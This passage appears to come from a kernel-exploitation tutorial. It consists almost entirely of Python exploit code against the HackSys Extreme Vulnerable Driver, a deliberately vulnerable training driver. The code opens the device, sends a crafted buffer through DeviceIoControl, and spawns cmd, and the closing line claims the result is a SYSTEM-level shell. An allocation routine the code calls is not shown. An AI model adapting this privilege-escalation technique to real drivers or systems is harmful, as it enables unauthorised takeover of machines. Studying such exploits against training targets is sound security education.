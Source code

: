 ```python

def interact():
    
    hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

    buf = "A" * 4
        
    result = kernel32.DeviceIoControl(
        hevd,
        0x22202b,
        buf,
        len(buf),
        None,
        0,
        byref(c_ulong()),
        None
    )

    if result != 0:
        print("[*] Payload sent.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))

def shell():
    Popen("start cmd", shell=True)

allocation()
interact()
shell()
```

If we run this code, we end up with our coveted `nt authority\system` shell!

